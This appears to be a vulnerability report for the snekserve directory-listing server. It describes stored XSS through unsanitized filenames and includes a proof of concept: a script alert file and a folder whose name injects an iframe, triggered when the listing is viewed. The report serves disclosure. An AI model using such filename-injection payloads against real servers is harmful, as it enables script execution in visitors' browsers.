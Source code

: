 # Description

The `snekserve` project is a `directory listing` server which is vulnerable against `stored XSS` because the `filename` isn't checked correctly, leading to `HTML/JS injection`

# POC

1. Create a PoC file like this:

```html
<!-- malicious.html -->
<script>alert(document.domain)</script>
```

2. Run the following commands: `npm i snekserve -g # Installs the CLI version of the module`
3. `mkdir '<iframe src=..\malicious.html>' # Creates the malicious *HTML formatted* folder`
4. `snekserve # Starts the server`
5. Open a browser and go on http://localhost:8080
6. `XSS` triggered

**Notes:**
The attack can work even if the `malicious file` isn't inside the server it-self, and while the attacker needs a limited access to the `system` to create a new `malicious filename`, it could be possible when it's used among other `ECM` softwares.
